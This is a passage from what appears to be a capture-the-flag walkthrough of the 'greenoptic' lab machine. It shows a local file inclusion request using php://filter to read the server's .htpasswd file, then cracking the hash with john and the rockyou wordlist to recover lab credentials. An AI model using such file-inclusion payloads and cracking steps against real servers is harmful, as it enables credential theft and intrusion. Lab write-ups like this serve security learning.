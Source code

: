 Let's move on to `recoveryplan.greenoptic.vm`, which we found from the DNS zone transfer we did earlier. 

![0eed79061a604c67f528f3f4eb692e73.png](/images/vh-greenoptic1/1ae854e097314680b04e73b3f4a5869d.png)

Same thing, we are unable to login with any of the credentials we found. Since we know this is running Apache httpd, we can try get the `.htpasswd` file like so.

```text
/account/index.php?include=php://filter/convert.base64-encode/resource=/var/www/.htpasswd
```

![6ec893b628e877bb8090a3c87d3324cb.png](/images/vh-greenoptic1/7834fec21f8f435fbd167d661b3c3ad4.png)

Awesome, let's bruteforce this with `john`

```text
sudo john --wordlist:/usr/share/wordlists/rockyou.txt htpasswd
sudu john --show htpasswd
```

![bd45dfe9a01a776452340d6476b44e3c.png](/images/vh-greenoptic1/d58ea6a478dc4b8891595d58a20e0046.png)

We have our some credentials we can use - `staff:wheeler`. Let's login to `recoveryplan.greenoptic.vm` with those.
